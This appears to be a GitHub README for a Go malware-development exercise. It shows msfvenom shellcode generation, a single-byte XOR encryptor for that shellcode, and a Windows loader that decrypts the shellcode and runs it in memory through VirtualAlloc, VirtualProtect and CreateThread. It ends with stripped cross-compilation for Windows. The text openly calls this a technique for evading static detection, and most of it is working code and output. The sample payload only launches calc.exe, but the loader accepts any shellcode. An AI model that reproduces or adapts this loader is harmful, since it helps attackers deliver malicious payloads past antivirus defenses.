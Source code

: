 # 🧩 XOR Shellcode Encryptor (Go)

---


## ✨ What It Does

- 📜 Takes raw shellcode (e.g., generated from msfvenom).

- 🔑 Applies a single-byte XOR key to each byte.

- 🔒 Produces an obfuscated byte array (harder for static detection).

- 🛠️ Outputs shellcode in a Go-friendly format → directly usable in loaders.

This is a classic malware technique: keep payloads encrypted at rest and decrypt them at runtime before execution.

## ⚡ How It Works

Input → Raw binary shellcode (e.g. from Metasploit).

Key → A static XOR key (0x85 in this case).

Processing → Loops through every byte, applying cipher[i] = clear[i] ^ key.

Output → Nicely formatted Go array ([]byte{...}) ready to drop into a loader.

---


## Generate Shellcode (example: spawn calc.exe 🧮)

```bash
/opt/metasploit-framework/bin/msfvenom -p windows/x64/exec CMD="calc.exe" -f raw > clean-shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
kant@APPLEs-MacBook-Pro ~/e/shellcode> cat clean-shellcode.bin 
A?8?u?LLE9?u?XD?@$I?fA?H?P?HD?@ I??VH??A?4?H?M1?H1??A??
                       HD?@I?A??H?AXAX^YZAXAYAZH?? AR??XAYZH??W???]H?H??A?1?o??ջ?VA???????H??(<|
???u?GrojYA????calc.exe⏎    

```
---

## maldev-go/Xor Encryption/shellcode/Xor-Enc/main.go

```go
package main

import (
    "flag"
    "fmt"
    "os"
)

func main()  {

    key := byte(133)

    // Example: ./encryptor -file=shellcode.bin
    pShellcodePath := flag.String("file", "", "Path Of the Shellcode")
    flag.Parse()

    shellcodePath := *pShellcodePath
    
    clearShellcodeByte, err := os.ReadFile(shellcodePath)
    if err != nil {
        fmt.Println("Error Opening file")
        fmt.Println(err.Error())
    }

    var encryptedShellcode []byte

    for i := 0; i < len(clearShellcodeByte); i++ {
        encryptedShellcode = append(encryptedShellcode, clearShellcodeByte[i] ^ key )
    }

    fmt.Print("[]byte{")
    for i := 0; i < len(clearShellcodeByte); i++ {
        if i == len(clearShellcodeByte) - 1 {
            fmt.Printf("%d", encryptedShellcode[i]) // last element, no comma
        } else {
            fmt.Printf("%d, ", encryptedShellcode[i])
        }
    }
    fmt.Println("}")
}


```
---

## 🔨 Run the encryptor
```bash
kant@APPLEs-MacBook-Pro ~/e/shellcode> ls
Xor-Enc/             clean-shellcode.bin  go.mod
kant@APPLEs-MacBook-Pro ~/e/shellcode> go build -o enc Xor-Enc/main.go 
kant@APPLEs-MacBook-Pro ~/e/shellcode> ls
Xor-Enc/             clean-shellcode.bin  enc*                 go.mod
kant@APPLEs-MacBook-Pro ~/e/shellcode> ./enc -h
Usage of ./enc:
  -file string
    	Path Of the Shellcode
kant@APPLEs-MacBook-Pro ~/e/shellcode> ./enc -file=clean-shellcode.bin 
[]byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133 }
kant@APPLEs-MacBook-Pro ~/e/shellcode> 

```

## 🌐 Why XOR?

XOR encryption is one of the oldest tricks in the book for malware authors:

🔀 Obfuscation → Avoids plain-text shellcode detection.

🕵️ Evasion → Helps bypass naive string signatures.

⚡ Fast & Lightweight → Single CPU instruction per byte.

🧩 Easy Integration → Works across any language/runtime.

Of course, advanced security tools can still catch this — but it’s a first step in maldev learning.




---
---

## Decryptor

```go
package main

import (
	"fmt"
	"unsafe"

	"golang.org/x/sys/windows"
)

func main() {
	secretKey := byte(133)

	// Put encrypted byte from prepare here
	encryptedShellcode := []byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133}

	var clearShellcode []byte

	for i := 0; i < len(encryptedShellcode); i++ {
		clearShellcode = append(clearShellcode, encryptedShellcode[i]^secretKey)
	}

	// Allocating memory
	fmt.Println("Allocating Memory")
	pNewlyAllocatedMem, err := windows.VirtualAlloc(uintptr(0), uintptr(len(clearShellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Println("Failed to Allocate Memory")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Copying Shellcode
	fmt.Println("Copying Shellcode")
	destination := unsafe.Slice((*byte)(unsafe.Pointer(pNewlyAllocatedMem)), len(clearShellcode))
	copy(destination, clearShellcode)
	fmt.Println("Done ...")

	fmt.Println("Changing Protection")
	var oldprotect uint32
	windows.VirtualProtect(pNewlyAllocatedMem, uintptr(len(clearShellcode)), windows.PAGE_EXECUTE_READ, &oldprotect)
	if err != nil {
		fmt.Println("Failed to Change Protection")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Launching Thread
	fmt.Println("Launching thread")
	KERNEL32DLL := windows.NewLazyDLL("kernel32.dll")
	procCreateThread := KERNEL32DLL.NewProc("CreateThread")
	h, _, err := procCreateThread.Call(0, 0, pNewlyAllocatedMem, 0, 0, 0)
	if err != nil {
		fmt.Println("Failed to run thread")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	windows.WaitForSingleObject(windows.Handle(h), windows.INFINITE)
}

```

---

## Cross Compilation

```bash
kant@APPLEs-MacBook-Pro ~/e/loader> GOOS=windows GOARCH=amd64 go build -a -ldflags="-s -w" -trimpath exp/main.go
kant@APPLEs-MacBook-Pro ~/e/loader> ls
exp/      go.mod    go.sum    main.exe*
```

---
